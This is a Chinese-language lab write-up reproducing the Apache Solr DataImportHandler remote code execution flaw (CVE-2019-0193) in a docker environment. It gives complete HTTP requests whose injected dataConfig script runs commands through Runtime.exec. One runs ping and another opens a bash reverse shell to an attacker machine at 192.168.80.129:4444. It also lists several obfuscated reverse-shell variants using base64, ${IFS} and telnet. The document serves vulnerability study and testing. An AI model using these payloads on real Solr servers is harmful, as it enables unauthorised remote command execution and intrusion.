# Apache Solr 远程命令执行漏洞（CVE-2019-0193）

## 漏洞概述

漏洞原理与分析可以参考：
- [Apache Solr DataImportHandler远程代码执行漏洞(CVE-2019-0193) 分析](
https://paper.seebug.org/1009/)
- [1135/solr_exploit](
https://github.com/1135/solr_exploit)
- [漏洞分析 - Apache Solr远程代码执行漏洞(CVE-2019-0193)](
https://xz.aliyun.com/t/5965)

2019年08月01日，Apache Solr官方发布预警，Apache Solr DataImport功能 在开启Debug模式时，可以接收来自请求的"dataConfig"参数，这个参数的功能与`data-config.xml`一样，不过是在开启Debug模式时方便通过此参数进行调试，并且Debug模式的开启是通过参数传入的。在`dataConfig`参数中可以包含script恶意脚本导致远程代码执行。
本环境测试RCE漏洞。

## 漏洞环境
运行漏洞环境：
```
docker-compose up -d
```
命令执行成功后，需要等待一会，之后访问http://your-ip:8983/即可查看到Apache solr的管理页面，无需登录。


## 相关概念
### 工作机制

1.` solr`是在`lucene`工具包的基础之上进行了封装，并且以web服务的形式对外提供索引功能。
2. 业务使用`solr`时，发起`http`请求，将返回的数据进行解析即可。

`solr` 中索引库用 `core` 表示，通过`DataImportHandler`可以批量把数据导入索引库中，工作流程大致如下：
![](https://ae01.alicdn.com/kf/H06d17d03c93141dc9df2e96990399fe4P.jpg)

其中`schema.xml/managed-schema`中定义了字段信息，以及建立索引时如何处理数据。

`dataConfig.xml`文件指定了数据源以及指定处理数据的方式，比如可以接受来自http、ftp的数据，然后将其按照java、javascript、时间等格式解析。如果`solr`开启了`debug=true`，那么就可以通过http请求动态的指定`dataConfig.xml`的内容了。

使用命令创建一个core，使用web页面创建core会失败：
![](https://ae01.alicdn.com/kf/H41cfa61e2fad410dafddf0ebf0bf828el.jpg)
也可以通过`configSet`请求创建，但是无论通过哪种方式创建索引库，都需要手动配置`solrconfig.xml`来开启`dataimport`功能。
本文的目的仅仅是测试漏洞，所以直接使用`solr`自带的示例`DIH`，启动方式如下：
![](https://ae01.alicdn.com/kf/He55afbd65e2b4cd18a01554883b53533c.jpg)

### 漏洞复现
1. 打开主页，默认8983端口，选择索引库`tika`，打开`DataImport`界面，开启`Debug`模式：
![](https://ae01.alicdn.com/kf/H7af0d45f0db54ee2a7443a78fefb3592N.jpg)
2. 利用bp抓包，点击`Execute`，可以看到请求头中带有`debug=true`，构造poc的时候也要带上，后面`DataConfig`字段才能生效。
![](https://ae01.alicdn.com/kf/H961e839983654769902298a81a10ee16i.jpg)
3. `DataConfig`字段是编码之后的，解码还原后的http请求：
```http
POST /solr/tika/dataimport?_=1565760731900&indent=on&wt=json HTTP/1.1
Host: 192.168.80.133:8983
Proxy-Connection: keep-alive
Content-Length: 1238
Accept: application/json, text/plain, */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.100 Safari/537.36
Content-type: application/x-www-form-urlencoded
Origin: http://192.168.80.133:8983
Referer: http://192.168.80.133:8983/solr/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9

command=full-import&verbose=false&clean=false&commit=true&debug=true&core=tika&name=dataimport&dataConfig=
<dataConfig>
  <dataSource type="BinFileDataSource"/>
  <document>
    <entity name="file" processor="FileListEntityProcessor" dataSource="null"
            baseDir="${solr.install.dir}/example/exampledocs" fileName=".*pdf"
            rootEntity="false">

      <field column="file" name="id"/>

      <entity name="pdf" processor="TikaEntityProcessor"
              url="${file.fileAbsolutePath}" format="text">

        <field column="Author" name="author" meta="true"/>
        <!-- in the original PDF, the Author meta-field name is upper-cased,
          but in Solr schema it is lower-cased
         -->

        <field column="title" name="title" meta="true"/>
        <field column="dc:format" name="format" meta="true"/>

        <field column="text" name="text"/>

      </entity>
    </entity>
  </document>
</dataConfig>
```
4. 根据官网doc找到执行java代码的示例，照猫画虎重新构造`DataConfig`：
```http
POST /solr/tika/dataimport?_=1565760731900&indent=on&wt=json HTTP/1.1
Host: 192.168.80.133:8983
Proxy-Connection: keep-alive
Content-Length: 542
Accept: application/json, text/plain, */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.100 Safari/537.36
Content-type: application/x-www-form-urlencoded
Origin: http://192.168.80.133:8983
Referer: http://192.168.80.133:8983/solr/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9

command=full-import&verbose=false&clean=false&commit=true&debug=true&core=tika&name=dataimport&dataConfig=
<dataConfig>
  <dataSource type="URLDataSource"/>
  <script><![CDATA[
          function poc(){ java.lang.Runtime.getRuntime().exec("ping 1.1.1.1");
          }
  ]]></script>
  <document>
    <entity name="stackoverflow"
            url="https://stackoverflow.com/feeds/tag/solr"
            processor="XPathEntityProcessor"
            forEach="/feed"
            transformer="script:poc" />
  </document>
</dataConfig>
```
可以看到，执行成功：
![](https://ae01.alicdn.com/kf/H4c534785970e4a5f97c83ab8772f80c3k.jpg)
查看进程，可以看到`ping`进程已经启动。
![](https://ae01.alicdn.com/kf/H7f0d91f8d64f4504bb480c777a7d64dfw.jpg)

### GetShell
1. kali中监听`4444`端口，准备`GetShell`。
![](https://ae01.alicdn.com/kf/H8afe9056133c4d259af7ef397bf778f7V.jpg)
2. 构造`POC`，该`POC`会反弹一个`shell`给`kali`，如下：
```http
POST /solr/tika/dataimport?_=1565760731900&indent=on&wt=json HTTP/1.1
Host: 192.168.80.133:8983
Proxy-Connection: keep-alive
Content-Length: 542
Accept: application/json, text/plain, */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.100 Safari/537.36
Content-type: application/x-www-form-urlencoded
Origin: http://192.168.80.133:8983
Referer: http://192.168.80.133:8983/solr/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9

command=full-import&verbose=false&clean=false&commit=true&debug=true&core=tika&name=dataimport&dataConfig=
<dataConfig>
  <dataSource type="URLDataSource"/>
  <script><![CDATA[
          function poc(){ java.lang.Runtime.getRuntime().exec("bash -i >& /dev/tcp/192.168.80.129/4444 0>&1");
          }
  ]]></script>
  <document>
    <entity name="stackoverflow"
            url="https://stackoverflow.com/feeds/tag/solr"
            processor="XPathEntityProcessor"
            forEach="/feed"
            transformer="script:poc" />
  </document>
</dataConfig>
```
exec中尝试过的反弹方式：
   - `bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjgwLjEyOS80NDQ0IDA+JjE=}|{base64,-d}|{bash,-i}`
   - `/bin/bash -c bash${IFS}-i${IFS}>&/dev/tcp/192.168.80.129/4444<&1`（有点效果）
   - `/bin/bash -c $@|bash 0 echo bash -i >&/dev/tcp/192.168.80.129/4444 0>&1`（有点效果）
   - `/bin/bash -c touch${IFS}/tmp/shell.sh;echo${IFS}'/bin/bash -i >& /dev/tcp/192.168.80.129/4444 0>&1'${IFS}>/tmp/shell.sh;/bin/bash /tmp/shell.sh`
   - `telnet${IFS}192.168.80.129${IFS}4444${IFS}|${IFS}/bin/bash${IFS}|${IFS}telnet${IFS}192.168.80.129${IFS}4445`

确保，`0 1 2`重定向到`socket`:`ls -all /proc/${PROCESS_NUM}/fd`。
3. bp中提交请求，在kali中仅能收到连接，但是无法交互，如下：
![](https://ae01.alicdn.com/kf/H4a50f6173eb34ad5b8467138d200c1e39.jpg)

## 总结
无法获取shell，非常遗憾，无法交互的原因可能是标准输入重定向有问题。

## 参考
- [绕过exec获取反弹shell](
https://blog.spoock.com/2018/11/25/getshell-bypass-exec/)
- [Apache Solr DataImportHandler远程代码执行漏洞(CVE-2019-0193) 分析](
https://paper.seebug.org/1009/)
- [1135/solr_exploit](
https://github.com/1135/solr_exploit)
- [漏洞分析 - Apache Solr远程代码执行漏洞(CVE-2019-0193)](
https://xz.aliyun.com/t/5965)